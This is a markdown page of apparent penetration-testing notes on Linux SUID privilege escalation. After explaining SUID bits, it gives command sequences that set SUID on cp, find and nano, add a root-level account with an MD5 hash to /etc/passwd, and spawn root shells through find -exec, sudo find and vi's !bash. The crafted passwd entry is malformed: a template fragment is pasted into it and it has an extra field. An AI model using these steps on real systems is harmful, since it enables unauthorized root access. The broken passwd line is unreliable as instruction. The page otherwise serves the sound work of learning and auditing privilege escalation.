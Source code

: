 # 4.4.2 SUID Exploitation

## SUID Exploitation

<details>

<summary>What is SUID?</summary>

SUID, which stands for Set User ID, is a special permission in Linux and Unix-like operating systems. When an executable file has the SUID permission set, it allows the user to execute the file with the privileges of the file's owner rather than the privileges of the user who is running the program. This is particularly useful for certain system programs that need elevated privileges to perform specific tasks.

The SUID permission is represented by the letter "s" in the user permission field of the file's permission bits. When the SUID bit is set, you will see an "s" instead of an "x" in the user permission field. For example:

* If the SUID bit is set: `-rwsr-xr-x`
* If the SUID bit is not set: `-rwxr-xr-x`

Common examples of programs that use the SUID permission include `passwd` and `sudo`. These programs need elevated privileges to perform tasks like changing the user password or running commands with superuser privileges.

It's important to note that the SUID mechanism should be used with caution, as it can introduce security risks. If a poorly designed program has the SUID bit set and contains vulnerabilities, it may be exploited to gain unauthorized access or perform malicious actions with elevated privileges. Therefore, system administrators should carefully review and audit programs with the SUID bit set to ensure they are secure and necessary for system functionality.

</details>

```bash
r=read, w=write, x=execute

rwx      rwx      rwx
user     group    others
421      421      421
4+2+1=7  4+2+1=7  4+2+1=7

chmod 777 #Maximum privileges
```

{% embed url="https://linuxhint.com/special-permissions-suid-guid-sticky-bit/" %}

<div align="left">

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption><p><a href="https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png">https://linuxhandbook.com/content/images/2020/06/linux-special-permission-suid-guid-sticky-bit.png</a></p></figcaption></figure>

</div>

{% embed url="https://www.redhat.com/sysadmin/suid-sgid-sticky-bit" %}

```bash
#Special Permissions
SUID (user) -> rwx -> rwS
SGID (group) -> rwx -> rwS
Sticky bits (others) -> rwT

chmod u+s = chmod 4755

find / -perm -u=s -type f 2>/dev/null #find files with root owner
```

<details>

<summary>What is a SUID Exploitation?</summary>

**SUID exploitation** is a serious security concern and is often associated with unauthorized activities and hacking. System administrators should follow best practices in securing their systems, including proper configuration, regular updates, and auditing of permissions to minimize the risk of SUID-related vulnerabilities.

Here's a basic overview of SUID exploitation:

1. **Understanding SUID:**
   * SUID is a special permission that can be set on an executable file. When a user runs a program with the SUID bit set, the program runs with the privileges of the file owner rather than the user who is executing the program.
2. **Exploitation Scenario:**
   * An attacker looks for a vulnerable program with the SUID bit set. This could be a system utility or custom program that has a security flaw.
3. **Identifying Vulnerabilities:**
   * The attacker identifies vulnerabilities in the program that can be exploited to execute arbitrary code or commands. These vulnerabilities could include buffer overflows, input validation issues, or other security weaknesses.
4. **Execution of Malicious Code:**
   * The attacker creates or injects malicious code into the vulnerable program. When the SUID program is executed, it runs with elevated privileges, allowing the attacker to perform actions they wouldn't normally be allowed to do.
5. **Gaining Elevated Privileges:**
   * By exploiting the SUID program, the attacker may gain elevated privileges, enabling them to access sensitive files, manipulate system configurations, or perform other malicious activities.
6. **Mitigation:**
   * To prevent SUID exploitation, it's crucial to carefully review and audit programs with the SUID bit set. Remove unnecessary SUID permissions, and ensure that programs are secure and well-designed to resist exploitation.
7. **Regular System Audits:**
   * System administrators should conduct regular audits to identify and address potential security risks. This includes monitoring for changes in SUID permissions and reviewing the security of programs with elevated privileges.

</details>

## Suid Exploits (PoC)

### CP Command

```bash
adduser new_user #create a new user
getent passwd new_user #check if new_user exists
su new_user #switch to new_user account
cp /etc/passwd /var/www/html/ #PERMISSION DENIED!
```

Infact, if I try to use: `find / -perm -u=s -type f 2>/dev/null` there's not cp path (or in alternative see permissions of `ls -al command_path_name`). If we want to assign SUID permission at cp command, we need to use chmod u+s (path of cp command):

```bash
which cp
/usr/bin/cp
chmod u+s /usr/bin/cp #it needs root permissions
```

Now, every users can execute cp command with root permissions!

Then, we can execute the same sequence of commands regarding cp of /etc/passwd using new\_user account user:

```bash
su new_user
cp /etc/passwd /var/www/html/
```

The idea is to add a new user with root permissions and not only for cp command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

In alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/cp/) site regarding `cp` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (5) (1).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/cp/">https://gtfobins.github.io/gtfobins/cp/</a></p></figcaption></figure>

### FIND Command

In the wake of the previous example, we proceed with the find command, using the same normal user (new\_user).

```bash
which find
/usr/bin/find
ls -al /usr/bin/find
-rwxr-xr-x 1 root root 224848  8 gen  2023 /usr/bin/find
chmod u+s /usr/bin/find #give SUID permissions, it needs root permissions
```

To do privilege escalation we only need to file an existing file using find command:

```bash
find example_file -exec "whoami" \;
root
```

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid) site regarding `find` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/find/#suid">https://gtfobins.github.io/gtfobins/find/#suid</a></p></figcaption></figure>

### NANO Command

As the last case, we do this sequence of command to do NANO SUID exploitation:

```bash
which nano
/usr/bin/nano
ls -al /usr/bin/nano
-rwxr-xr-x 1 root root 287480 18 gen  2023 /usr/bin/nano
chmod u+s /usr/bin/nano #give SUID permissions, it needs root permissions
```

Now, we can open file with root permissions like as /etc/passwd with a normal user using nano:

```bash
nano /etc/passwd
```

As the example of Copy SUID, the idea is to add a new user with root permissions and not only for nano command.

Using `openssl passwd` we generate a password with MD5 algorithm (option -1) and custom salt

```bash
openssl passwd -1 -salt new_root_user new_password
$1$new_root$qigEVpHXRPIfTT6fXhm7H0 #hash
```

Then, construct our costum account string to append in /etc/passwd file based on this format:

\<username>:\<hash>:0:0:0:root:/root:/bin/bash

```bash
new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Add it in our local copy of /etc/passw using vim or nano or copy it in original file:

```bash
nano /etc/passwd
#paste it and save: new_root_user:$1$new_root$qigEVpHXRPIfTT6fXhm7H0<username>:<hash>:0:0:0:root:/root:/bin/bash
```

Finally we can log into new\_root\_user and have root privileges.

#### GTFOBins

in alternative we can do privilege escalation using commands present on [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#suid) site regarding `nano` command in the section of SUID:

<figure><img src="../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption><p><a href="https://gtfobins.github.io/gtfobins/nano/#suid">https://gtfobins.github.io/gtfobins/nano/#suid</a></p></figcaption></figure>

### RIGHT Command

Sudoers file can cantoins users with a specific root permission called SUDO Rights, e.g. new\_user ca execute `find` command as root:

```bash
visudo #to open sudoers file
root   ALL=(ALL:ALL) ALL
new_user  ALL=(root) NOPASSWD: /usr/bin/find
```

To do privilege escalation we only need to file an existing file using find command:

```bash
su new_user
sudo find /home -exec /bin/bash \;
root
```

Can we do the same for others command, e.g. vi command:

```
new_user  ALL=(root) NOPASSWD: /usr/bin/vi
```

```bash
su new_user
sudo vi example_file
!bash #write it into example_file and save using Enter
root
```

It's possible to do the same for more command such as: man, python, nano, vim, etc.

## Other resources

{% embed url="https://gtfobins.github.io/" %}
